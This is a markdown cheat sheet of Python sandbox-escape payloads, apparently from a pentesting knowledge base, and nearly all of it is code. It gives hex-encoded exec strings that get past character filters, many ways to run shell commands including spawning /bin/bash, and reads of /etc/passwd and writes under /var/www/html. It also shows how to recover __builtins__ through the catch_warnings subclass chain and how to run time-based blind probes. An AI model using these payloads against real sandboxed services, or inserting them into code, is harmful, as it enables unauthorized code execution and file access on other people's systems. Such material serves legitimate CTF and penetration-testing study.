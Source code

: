 # Bypass Python Sandbox

## Bypass forbidden characters

* We can encode forbidden characters in their encoded form. Here we used hex encoded as it works smoothly as compared to octal encoding.
* Target command
  * `exec("print('RCE'); __import__('os').system('ls')")`
* Updated command, after converting payload to octal
  * `exec("\x5bi for i in \x28)\x2e\x5f\x5fclass\x5f\x5f\x2e\x5f\x5fbases\x5f\x5f\x5b0]\x2e\x5f\x5fsubclasses\x5f\x5f\x28) if i\x2e\x5f\x5fname\x5f\x5f=='catch\x5fwarnings']\x5b0]\x28)\x2e\x5fmodule\x2e\x5f\x5fbuiltins\x5f\x5f")`

## Alternative.to commands

* You can perform a task in multiple ways, below is a list of all different ways used to perform the same action.

```python
### Command execution and file read ##########################
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')


### importing libraries ########################################
# 1
import os
from os import *
__import__('os').system("ls")

# 2
sys.modules["os"].system("ls")

#3 - python2
execfile('/usr/lib/python2.7/os.py')
system('ls')

```

## Python Builtins

### If Python builtins present

* In python version 2.7.18
  * `__builtin__` is a module that stores all built in functions.
  * Both `__builtin__` and `__builtins__` are exactly the same
  * You could print all built in functions using `dir(__builtin__)`
  * All functions except print will work normally, to execute print normally you need to first run `from __future__ import print_function`
* Examples
  * `import __builtin__`
    * Loading \_\_builtin\_\_ module
  * `__builtin__.len("hello")`
  * `__builtin__.range(1,20)`
  * `__builtin__.print("hello")`
  * `from __future__ import print_function`
  * `__builtin__.print("hello")`
  * `__builtin__.__dict__['__import__']("os").system("ls")`

![](../../.gitbook/assets/image%20%28138%29.png)

* Some more builtin
  * `__builtin__.__dict__['__import__']("os").system("ls")`

### If No builtin module : python2 present

* Restore builtin using its sub-modules
  * `__builtins__ = [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__`
  * `__builtins__['__import__']('os').system('whoami')`



* other methods

```python
#Try to reload __builtins__
reload(__builtins__)
import __builtin__

# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

# Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
# Execute (another method)
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
# Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('ls')")

# Or you could recover __builtins__ in make eveything easier
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtins__["__import__"]('os').system('ls')

# Or you could obtain the builtins from a defined function
get_flag.__globals__['__builtins__']['__import__']("os").system("ls")
```

### if No builtin module : python3

* `get_flag.__globals__['__builtins__'].__import__("os").system("ls")`

## Time Commands list

* Ref : [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes\#executing-python-code](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#executing-python-code)

```text
# time.sleep
{}.__class__.__base__.__subclasses__()[59]()._module.__builtins__["__import__"]("time").sleep(100)

# You can also multiline the above command
i={}.__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
i('time').sleep(3)

# hex encode of some special chars of the above command (multiline)
i={}\x2e\x5f\x5fclass\x5f\x5f\x2e\x5f\x5fbase\x5f\x5f\x2e\x5f\x5fsubclasses\x5f\x5f\x28)\x5b59]\x28)\x2e\x5fmodule\x2e\x5f\x5fbuiltins\x5f\x5f\x5b'\x5f\x5fimport\x5f\x5f']\ni\x28'time')\x2esleep\x283)

# Command for system.sleep(100)
{}.__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('sleep 3')

```

## Restore builtins and execute OS command

```text

# Restore builtin
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtins__["__import__"]('os').system('ls')



### To execute + read output

# Print all available function in __builtins__
print(__builtins__)

# len()
size = __builtins__['len']('String len is 16')

# import os; os.popen('ls').read()
lfiles = __builtins__['__import__']('os').popen('ls').read()

# python2 print current working directory os.getcwd()
cdir = lfiles = __builtins__['__import__']('os').getcwd()

# GUESS : Number of files in current directory
if os.listdir(path).__len__()==n:time.sleep(20)


```



